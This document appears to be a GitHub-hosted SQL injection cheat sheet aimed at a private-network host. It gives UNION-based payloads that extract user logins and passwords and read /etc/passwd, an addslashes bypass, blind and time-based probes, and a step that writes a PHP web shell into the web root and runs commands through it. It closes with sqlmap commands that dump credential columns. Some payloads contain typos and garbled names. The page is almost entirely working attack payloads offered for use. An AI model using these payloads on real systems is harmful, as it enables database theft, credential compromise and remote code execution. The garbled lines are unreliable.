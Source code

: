 ```sql
172.16.1.10/turismo/agencias.php?loja='union select 1,2,table_name,4,5 where table_schema ="dbname"%23' 
172.16.1.10/turismo/agencias.php?loja='union select 1,2,column_name,4,5 where table_schema ="dbname" and table_name="dbusers"%23' 
172.16.1.10/turismo/agencias.php?loja='union select 1,2,nome,login,senha from dbusers %23' .
172.16.1.10/turismo/agencias.php?loja='union select 1,2,concat('id=',id,'Login=',login,'pass=',password)4,5 from mrudbuserssers %23' 
172.16.1.10/turismo/agencias.php?loja='union select 1,2,3,4,load_file("/etc/passwd")%23' 
```  
### Bypass Addslashes
Send the string in char.
```sql
172.16.1.10/adm/test.php?loja='union select 1,2,table_name,4,5 from information_schema.tables where table_schema=char(100,98,114,116,117,114)'
```  

### SQL Injection Error based  
```sql
172.16.1.10/administration/test.php?test=sp'union select 1,2,3,4,5 %25' --Test until find the number of fields
172.16.1.10/administration/test.php?test=sp'union select 1,2,version(),user(),database()' 
```  
### Blind SQL Injection  
When we dont have error response.  

### Blind Post SQLi  
```sql
login=test' and length(database()) = 7 ' -- Will do request until to find the right lenght of database name

login=test' and ascii(substring(database(),1,1)) = 100 #' -- Will check character of the name until find all

login=test' and (select length(group_concat(table_name))) = 35 from information_schema.tables where table_schema="dbtest")#' -- To discover the name lenght of the tables. Repeat  the same steps to find the names, character by character.
```  

### Time based SQL Injection
```sql
test=' or sleep(5)#' -- If sleep 6 sec is working the command. 

test=' or if (database() = char(100,98,109,114,116,117,114), sleep(3),0)#' -- If was right the comparison will sleep.
```  

### SQL TO RCE
```sql
172.16.1.10/adm/test.php?ps='union all select 1,2,3,4,"<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/adm/banners/rce.php" %23' 

172.16.1.10/adm/banners/rce.php?cmd=ifconfig
```  
### SqlMap
```bash 
sqlmap -u "172.100.1.10/adm/test.php?ulp=sp" —current-db 
sqlmap -u "172.100.1.10/adm/test.php?ulp=sp" —dbs 
sqlmap -u "172.100.1.10/adm/test.php?ulp=sp" -D databasename —tables 
sqlmap -u "172.100.1.10/adm/test.php?ulp=sp" -D databasename -T tablename —columns 
sqlmap -u "172.100.1.10/adm/test.php?ulp=sp" -D databasename -C 'login,pass' —dump 
sqlmap -u "172.100.1.10/adm/test.php?ulp=sp" —current-user 
sqlmap -u "172.100.1.10/adm/test.php?ulp=sp" —users 
```